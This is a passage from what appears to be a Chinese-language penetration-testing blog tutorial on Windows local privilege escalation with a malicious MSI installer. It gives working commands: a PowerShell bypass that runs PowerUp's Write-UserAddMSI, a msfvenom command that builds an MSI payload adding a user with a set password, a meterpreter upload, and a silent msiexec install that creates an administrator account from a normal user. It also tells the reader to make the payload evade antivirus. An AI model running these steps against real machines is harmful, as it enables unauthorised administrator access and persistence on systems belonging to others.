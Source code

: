 接着我们需要生成恶意的MSI安装文件，让其来添加用户，第一种方法可以使用PowerUp脚本自带的 Write-UserAddMSI 模块，运行后生成文件 UserAdd.msi

```
C:\>powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('c:/PowerUp.p
s1');Write-UserAddMSI
```

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319111132223-1158618501.png)

这时以普通用户权限运行这个 UserAdd.msi，就会成功添加账户：

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319111239840-511959817.png)

 

我们在查看下管理员组的成员，可以看到已经成功在普通权限的 CMD 下添加了一个管理员账户。

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319111331670-1624883851.png)

 

 

## 第二种方法我们也可以配和msf生成木马，同样的效果

```
msfvenom -f msi -p windows/adduser USER=qing PASS=123P@ss! -o /root/msi.msi
```

## 注意密码设置的!最好放最后

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319111910590-383538727.png)

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319112028458-1118083068.png)

 

meterpreter上传木马msi，然后运行即可

```
upload /root/msi.msi c:\\msi.msi
```

（这里C后面一定是两个\，容易忽视的细节）

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319112145295-558725144.png)

msiexec工具相关的参数： /quiet=安装过程中禁止向用户发送消息 /qn=不使用图形界面 /i=安装程序 执行之后，成功添加上了该账号密码。如图5所示。当然这里也可以直接生成木马程序。 注：由于是msf生成的msi文件，所以默认会被杀毒软件拦截，做好免杀。

```
msiexec /quiet /qn /i C:\msi.msi
```

##  

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319112551723-1138151630.png)

![img](https://img2018.cnblogs.com/blog/1545399/201903/1545399-20190319112705211-347105967.png)
